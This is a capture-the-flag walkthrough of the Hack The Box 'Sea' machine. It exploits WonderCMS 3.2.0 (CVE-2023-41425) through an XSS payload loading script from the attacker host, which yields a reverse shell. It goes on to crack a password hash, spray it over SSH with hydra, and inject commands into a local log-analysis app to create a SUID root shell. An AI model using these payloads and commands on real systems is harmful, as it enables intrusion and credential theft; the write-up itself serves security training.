

# Target
| Category          | Details                                                                                               |
|-------------------|-------------------------------------------------------------------------------------------------------|
| 📝 **Name**       | [Sea](https://app.hackthebox.com/machines/Sea)                                                        |  
| 🏷 **Type**       | HTB Machine                                                                                           |
| 🖥 **OS**         | Linux                                                                                                 |
| 🎯 **Difficulty** | Easy                                                                                                  |
| 📁 **Tags**       | WonderCMS 3.2.0, [CVE-2023-41425](https://nvd.nist.gov/vuln/detail/CVE-2023-41425), command injection |

### User flag

#### Scan target with `nmap`
```
┌──(magicrc㉿perun)-[~/attack/HTB Sea]
└─$ nmap -sS -sC -sV -p- $TARGET
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-20 09:09 +0200
Nmap scan report for 10.129.1.31
Host is up (0.087s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
|   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
|_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Sea - Home
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.66 seconds
```

#### Enumerate web server
```
┌──(magicrc㉿perun)-[~/attack/HTB Sea]
└─$ feroxbuster --url http://$TARGET -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt -x php -t 10
<SNIP>
200      GET      118l      226w     2731c http://10.129.1.31/contact.php
301      GET        7l       20w      236c http://10.129.1.31/themes => http://10.129.1.31/themes/
301      GET        7l       20w      234c http://10.129.1.31/data => http://10.129.1.31/data/
301      GET        7l       20w      240c http://10.129.1.31/data/files => http://10.129.1.31/data/files/
301      GET        7l       20w      237c http://10.129.1.31/plugins => http://10.129.1.31/plugins/
301      GET        7l       20w      238c http://10.129.1.31/messages => http://10.129.1.31/messages/
301      GET        7l       20w      241c http://10.129.1.31/themes/bike => http://10.129.1.31/themes/bike/
301      GET        7l       20w      245c http://10.129.1.31/themes/bike/img => http://10.129.1.31/themes/bike/img/
200      GET        1l        1w        6c http://10.129.1.31/themes/bike/version
301      GET        7l       20w      245c http://10.129.1.31/themes/bike/css => http://10.129.1.31/themes/bike/css/
200      GET        1l        9w       66c http://10.129.1.31/themes/bike/summary
500      GET        9l       15w      227c http://10.129.1.31/themes/bike/theme.php
<SNIP>
```

#### Enumerate `/bike` theme
```
┌──(magicrc㉿perun)-[~/attack/HTB Sea]
└─$ curl http://$TARGET/themes/bike/LICENSE  
MIT License

Copyright (c) 2019 turboblack

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
                                                                                                                                                                                                    
┌──(magicrc㉿perun)-[~/attack/HTB Sea]
└─$ curl http://$TARGET/themes/bike/README.md
# WonderCMS bike theme

## Description
Includes animations.

## Author: turboblack

## Preview


## How to use
1. Login to your WonderCMS website.
2. Click "Settings" and click "Themes".
3. Find theme in the list and click "install".
4. In the "General" tab, select theme to activate it.
                                                                                                                                                                                                    
┌──(magicrc㉿perun)-[~/attack/HTB Sea]
└─$ curl http://$TARGET/themes/bike/version  
3.2.0
```
It looks like WonderCMS 3.2.0 is running on target. This version is vulnerable to XSS -> CSRF -> RCE [CVE-2023-41425](https://nvd.nist.gov/vuln/detail/CVE-2023-41425). However, to exploit this chain of vulnerabilities, site admin must vist our forged url. We will try to use `contact.php` form discovered during web enumeration. Form itself is available under `http://sea.htb/contact.php` URL.

#### Add `sea.htb` to `/etc/hosts`
```
┌──(magicrc㉿perun)-[~/attack/HTB Sea]
└─$ echo "$TARGET sea.htb" | sudo tee -a /etc/hosts                                                                            
10.129.1.31 sea.htb
```

#### Start `nc` to probe for HTTP traffic
```
┌──(magicrc㉿perun)-[~/attack/HTB Sea]
└─$ nc -lvnp 80
listening on [any] 80 ...
```

#### Send probe
```
┌──(magicrc㉿perun)-[~/attack/HTB Sea]
└─$ curl -s http://sea.htb/contact.php -d "name=John+Doe&email=john.doe%40server.com&age=40&country=Poland&website=http://$LHOST" -o /dev/null
```

#### Confirm admin entered URL
```
connect to [10.10.16.193] from (UNKNOWN) [10.129.1.31] 60758
GET / HTTP/1.1
Host: 10.10.16.193
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/117.0.5938.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
```

#### Start `nc` to listen for reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/HTB Sea]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

#### Exploit [CVE-2023-41425](https://nvd.nist.gov/vuln/detail/CVE-2023-41425) to spawn reverse shell
[Tea-On/CVE-2023-41425-RCE-WonderCMS-4.3.2.git](https://github.com/Tea-On/CVE-2023-41425-RCE-WonderCMS-4.3.2.git) has been used for exploitation.
```
┌──(magicrc㉿perun)-[~/attack/HTB Sea]
└─$ git clone -q https://github.com/Tea-On/CVE-2023-41425-RCE-WonderCMS-4.3.2.git && \
python3 ./CVE-2023-41425-RCE-WonderCMS-4.3.2/exploit_CVE-2023-41425.py -u http://sea.htb/loginURL -H $LHOST -p $LPORT -r ./CVE-2023-41425-RCE-WonderCMS-4.3.2/reverseShell.php
[+] Using parameters:
    Login URL: http://sea.htb/loginURL
    Listener IP: 10.10.16.193
    Listener Port: 4444
    Directory Name: TeaOn
    ZIP Base Name: reverse-shell
    PHP Source: /home/magicrc/attack/HTB Sea/CVE-2023-41425-RCE-WonderCMS-4.3.2/reverseShell.php

[+] Updated PHP reverse shell in '/home/magicrc/attack/HTB Sea/CVE-2023-41425-RCE-WonderCMS-4.3.2/reverseShell.php'.
[+] Created ZIP archive 'reverse-shell.zip'.
[+] Created 'script.js'.
[+] Start your listener:
    nc -lnvp 4444

[+] Deliver this XSS payload URL to the admin:
    http://sea.htb/index.php?page=loginURL?"><script src="http://10.10.16.193:3000/script.js"></script>

[+] HTTP server serving files on port 3000

[+] HTTP server at http://0.0.0.0:3000/
```

#### Deliver payload
```
PAYLOAD=$(echo -n 'http://sea.htb/index.php?page=loginURL?"><script src="http://10.10.16.193:3000/script.js"></script>' | jq -sRr @uri) && \
curl -s http://sea.htb/contact.php -d "name=John+Doe&email=john.doe%40server.com&age=40&country=Poland&website=$PAYLOAD" -o /dev/null
```

#### Confirm foothold gained
```
connect to [10.10.16.193] from (UNKNOWN) [10.129.1.31] 54730
Linux sea 5.4.0-190-generic #210-Ubuntu SMP Fri Jul 5 17:03:38 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 15:17:18 up 13 min,  0 users,  load average: 0.94, 0.77, 0.40
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
```

#### Discover password hash in `/var/www/sea/data/database.js`
```
www-data@sea:/$ grep password /var/www/sea/data/database.js 
        "password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",
```

#### Use `hashcat` to break discovered hash
```
┌──(magicrc㉿perun)-[~/attack/HTB Sea]
└─$ hashcat -m 3200 '$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q' /usr/share/wordlists/rockyou.txt --quiet
$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q:mychemicalromance
```

#### List users with shell access
```
www-data@sea:/$ grep -P "/bin/bash|/bin/sh" /etc/passwd | cut -d':' -f1
root
amay
geo
```

#### Use `hydra` to spray `mychemicalromance` over users with shell access
```
┌──(magicrc㉿perun)-[~/attack/HTB Sea]
└─$ cat <<'EOF'> users.txt && hydra -L users.txt -p 'mychemicalromance' ssh://sea.htb
root
amay
geo
EOF
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-05-20 17:31:38
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 3 tasks per 1 server, overall 3 tasks, 3 login tries (l:3/p:1), ~1 try per task
[DATA] attacking ssh://sea.htb:22/
[22][ssh] host: sea.htb   login: amay   password: mychemicalromance
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-05-20 17:31:46
```

#### Gain access over SSH using `amay:mychemicalromance` credentials
```
┌──(magicrc㉿perun)-[~/attack/HTB Sea]
└─$ ssh amay@sea.htb  
amay@sea.htb's password: 
<SNIP>
amay@sea:~$ id
uid=1000(amay) gid=1000(amay) groups=1000(amay)
```

#### Capture user flag
```
amay@sea:~$ cat /home/amay/user.txt 
fd497d793e3b8c96031ec78a02910f03
```

### Root flag

#### List all open ports
```
amay@sea:~$ netstat -natp
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:45797         0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      - 
```
There is some application listening on `127.0.0.1:8080`. We will forward this port and analyze this application from attacker machine.

#### Forward `127.0.0.1:8080` to `9090` on attacker machine
```
┌──(magicrc㉿perun)-[~/attack/HTB Sea]
└─$ ssh -L 9090:127.0.0.1:8080 amay@sea.htb
amay@sea.htb's password: 
<SNIP>
amay@sea:~$ 
```

#### Discover that application is protected with basic HTTP authentication
```
┌──(magicrc㉿perun)-[~/attack/HTB Sea]
└─$ curl -I 127.0.0.1:9090                           
HTTP/1.0 401 Unauthorized
Host: 127.0.0.1:9090
Date: Thu, 21 May 2026 04:25:35 GMT
Connection: close
X-Powered-By: PHP/7.4.3-4ubuntu2.23
WWW-Authenticate: Basic realm="Restricted Area"
Content-type: text/html; charset=UTF-8
```

#### Reuse `amay:mychemicalromance` credentials to gain access
```
┌──(magicrc㉿perun)-[~/attack/HTB Sea]
└─$ curl -I 127.0.0.1:9090 -u 'amay:mychemicalromance'
HTTP/1.1 200 OK
Host: 127.0.0.1:9090
Date: Thu, 21 May 2026 04:25:38 GMT
Connection: close
X-Powered-By: PHP/7.4.3-4ubuntu2.23
Content-type: text/html; charset=UTF-8
```

#### Analyze System Monitoring web application


After analysis with Burp Suite, we have discovered that `log_file` parameter is vulnerable to command injection.

#### Confirm command injection vulnerability
```
┌──(magicrc㉿perun)-[~/attack/HTB Sea]
└─$ curl -s 'http://127.0.0.1:9090' -d 'log_file=;id;id&analyze_log=' -u 'amay:mychemicalromance' | grep 'uid='
            uid=0(root) gid=0(root) groups=0(root)
<p class='error'>Suspicious traffic patterns detected in ;id;id:</p><pre>uid=0(root) gid=0(root) groups=0(root)</pre>        </div>
```

#### Prepare exploit for root shell creation
```
amay@sea:~$ echo 'cp /bin/bash /tmp/root_shell; chmod 4755 /tmp/root_shell' > /tmp/exploit.sh && chmod +x /tmp/exploit.sh
```

#### Exploit command injection to escalate to `root` user 
```
amay@sea:~$ echo 'cp /bin/bash /tmp/root_shell; chmod 4755 /tmp/root_shell' > /tmp/exploit.sh && chmod +x /tmp/exploit.sh && \
curl -s 'http://127.0.0.1:8080' -d 'log_file=;/tmp/exploit.sh&analyze_log=' -u 'amay:mychemicalromance' -o /dev/null && \
sleep 2
/tmp/root_shell -p
root_shell-5.0# id
uid=1000(amay) gid=1000(amay) euid=0(root) groups=1000(amay)
```

#### Capture root flag
```
root_shell-5.0# cat /root/root.txt
1db50d6bbb6da195eb4fcae0fb212d50
```
